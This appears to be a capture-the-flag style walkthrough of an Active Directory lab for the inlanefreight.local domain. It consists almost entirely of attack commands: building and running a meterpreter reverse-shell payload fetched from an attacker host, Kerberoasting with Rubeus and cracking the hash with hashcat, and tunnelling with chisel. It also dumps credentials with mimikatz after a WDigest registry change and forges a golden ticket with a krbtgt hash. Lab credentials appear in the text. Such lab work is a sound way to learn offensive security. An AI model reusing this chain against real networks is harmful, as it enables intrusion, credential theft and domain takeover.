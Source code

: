 Login to the web shell: admin:My_W3bsH3ll_P@ssw0rd!

Submit the contents of the flag.txt file on the administrator Desktop of the web server
```
type C:\Users\Administrator\Desktop\Flag.txt
```

Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.126 LPORT=8081 -f exe > backup.exe
python3 -m http.server
msfconsole
use exploit/multi/handler
set LHOST 10.10.15.126
set LPORT 8081
set payload windows/x64/meterpreter/reverse_tcp
run
Invoke-WebRequest -Uri "http://10.10.15.126:8000/backup.exe" -OutFile "C:\Users\Administrator\Desktop\backup.exe"
& "C:\Users\Administrator\Desktop\backup.exe"
shell
setspn.exe -Q */*
```
- Transferred Rubeus over

Crack the account's password. Submit the cleartext value.
```
.\rubeus.exe kerberoast /spn:MSSQLSvc/SQL01.inlanefreight.local:1433 /nowrap
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Submit the contents of the flag.txt file on the Administrator desktop on MS01
```
powershell
./chisel_1.7.3_linux_amd64 server --reverse -v -p 1234 --socks5
.\chisel.exe client -v 10.10.15.126:1234 R:socks
proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /p:lucky7 /drive:linux,/home/htb-ac-1480826
```
- Transfer mimikatz.exe

Find cleartext credentials for another domain user. Submit the username as your answer.
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

Submit this user's cleartext password.

What attack can this user perform?
- DCSync

Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01
```
runas /netonly /user:INLANEFREIGHT\tpetty powershell
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
type \\dc01\c$\Users\Administrator\Desktop\flag.txt
```
